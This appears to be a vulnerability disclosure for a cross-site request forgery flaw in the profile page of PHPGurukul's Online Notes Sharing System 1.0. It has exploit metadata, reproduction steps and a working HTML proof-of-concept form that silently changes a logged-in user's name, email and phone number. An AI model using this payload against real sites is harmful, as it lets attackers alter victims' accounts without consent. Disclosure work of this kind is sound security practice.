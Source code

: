 ## Online Notes Sharing System V1.0


**Bug Description:**

A Cross Site Request Forgery (CSRF) vulnerability in "/user/profile.php" endpoint of Online Notes Sharing System 1.0  allows attackers to "Change Name" via a crafted html request.

**Steps to Reproduce:** 

```
# Exploit Title: Cross Site Request Forgery (CSRF) vulnerability in PHPGurukul Online Notes Sharing System
# Date: 20-12-2023
# Exploit Author: dhabaleshwardas
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/online-notes-sharing-system-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome/brave
# CVE : 
```


To reproduce the attack:

1- Head to the http://localhost/onss/user/profile.php endpoint after logging into the admin account.


<img width="958" alt="1" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/bfdb6180-2ce7-4f04-bee5-3beccaf4a9bf">


2- Here you can see that the name by default is "John Doe", but now we will add another name using the HTML code we have written.


<img width="477" alt="2" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/890e8e7c-03b0-4f0a-86a3-abc5a9931934">



```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/onss/user/profile.php" method="POST">
      <input type="hidden" name="name" value="Ben&#32;K" />
      <input type="hidden" name="email" value="john12&#64;gmail&#46;com" />
      <input type="hidden" name="mobilenumber" value="1122112211" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
